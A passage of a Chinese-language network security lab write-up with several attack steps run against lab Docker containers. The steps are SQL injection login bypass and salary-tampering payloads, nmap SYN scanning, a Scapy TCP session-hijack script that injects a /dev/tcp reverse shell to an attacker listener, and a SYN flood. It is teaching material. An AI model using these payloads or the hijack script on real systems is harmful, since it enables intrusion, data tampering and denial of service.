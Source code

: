 利用语句`admin'#`，登录到管理员账户，因为密码部分被`#`注释，我们可以绕过密码部分登录到任何用户。

![10](10.JPG)

![11](11.JPG)

利用同样的方法登录到`Boby`用户。

![12](12.JPG)

利用`',salary=1#`，可以将全部员工的工资修改为`1`。

![13](13.JPG)

![14](14.JPG)

![15](15.JPG)

### 4、扫描

扫描主要是对目标机器的每个端口发送`SYN`报文，检测端口的开放程度，通过`nmap`实现。

### 5、远程控制

```python
#!/usr/bin/env python3
from scapy.all import *

pkts = []
def add(pkt):
    pkts.append(pkt)

def spoof_pkt(pkt):
    ip = IP(src="10.9.0.6", dst="10.9.0.5")
    tcp =TCP(sport=pkt[TCP].sport, dport=23, flags="A", seq=pkt[TCP].seq, ack=pkt[TCP].ack)
    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
    newpkt = ip/tcp/data
    ls(newpkt)
    send(newpkt,verbose=0)

pkt = sniff(iface='br-f460e2934f17', filter='tcp and src host 10.9.0.6 and dst host 10.9.0.5 and dst port 23', prn=add)
spoof_pkt(pkts[-1])
```

在攻击者容器运行攻击程序，从容器`2`向容器`1`建立`telnet`连接，攻击者容器运行`nc -lnv 9090`，最终攻击者伪造报文发往服务器来创建反向 `shell`。

![18](18.JPG)

### 6、各种类型`Dos`攻击

实验中实现的`Dos`攻击主要以`SYN Flood`为主，进入`docker3(10.9.0.1)` 实施攻击，在本地`volumes`文件夹中进行编译，然后在`docker3`中运行`synflood 10.9.0.5 23`进行攻击。
